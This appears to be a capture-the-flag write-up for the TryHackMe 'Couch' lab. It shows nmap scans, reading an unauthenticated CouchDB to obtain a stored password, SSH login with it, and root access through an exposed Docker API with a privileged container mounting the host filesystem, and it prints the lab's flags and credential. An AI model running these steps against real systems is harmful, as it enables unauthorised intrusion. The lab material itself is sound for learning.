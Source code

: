 ## Nmap

```
┌─[✗]─[glack@parrot]─[~/Desktop/THM/couch]
└──╼ $nmap -T5 -p- --min-rate=10000 10.10.138.170
```

```
┌─[glack@parrot]─[~/Desktop/THM/couch]
└──╼ $nmap -sV -sT -p 22,5984 10.10.138.170 -oN couch_nmap.txt
```


```
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.10 (Ubuntu Linux; protocol 2.0)
5984/tcp open  http    CouchDB httpd 1.6.1 (Erlang OTP/18)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

```


## HTTP

1. http://10.10.138.170:5984/


2. https://www.ionos.com/digitalguide/hosting/technical-matters/work-with-couchdb-from-the-command-line/


3. http://10.10.138.170:5984/_all_dbs
```
["_replicator","_users","couch","secret","test_suite_db","test_suite_db2"]
```

I used the browser because curl was not giving any response



4. http://10.10.138.170:5984/_utils
This gave me a GUI for the couchdb

5. The secret database gave me this 


```
{
   "_id": "a1320dd69fb4570d0a3d26df4e000be7",
   "_rev": "2-57b28bd986d343cacd9cb3fca0b20c46",
   "passwordbackup": "atena:t4qfzcc4qN##"
}
```

```
┌─[✗]─[glack@parrot]─[~/Desktop/THM/couch]
└──╼ $ssh atena@10.10.138.170
```

```
atena@ubuntu:~$ id
uid=1000(atena) gid=1000(atena) groups=1000(atena),4(adm),24(cdrom),30(dip),46(plugdev),114(lpadmin),115(sambashare)
```

```
atena@ubuntu:~$ cat user.txt
THM{1ns3cure_couchdb}
```

## Priv ESC

1. After running linpeas i got these potential priv esc vectors

```
╔══════════╣ PATH
╚ https://book.hacktricks.xyz/linux-hardening/privilege-escalation#writable-path-abuses
/home/atena/bin:/home/atena/.
```

2. Used writeup and found out the this command was mentioned in `history`
```
docker -H 127.0.0.1:2375 run --rm -it --privileged --net=host -v /:/mnt alpine
```


Reran the command and 

```
atena@ubuntu:~/bin$ docker -H 127.0.0.1:2375 run --rm -it --privileged --net=host -v /:/mnt alpine
/ # id
uid=0(root) gid=0(root) groups=0(root),1(bin),2(daemon),3(sys),4(adm),6(disk),10(wheel),11(floppy),20(dialout),26(tape),27(video)

```


```
~ # cd /mnt/root
/mnt/root # ls
root.txt
/mnt/root # cat root.txt
THM{RCE_us1ng_Docker_API}
```



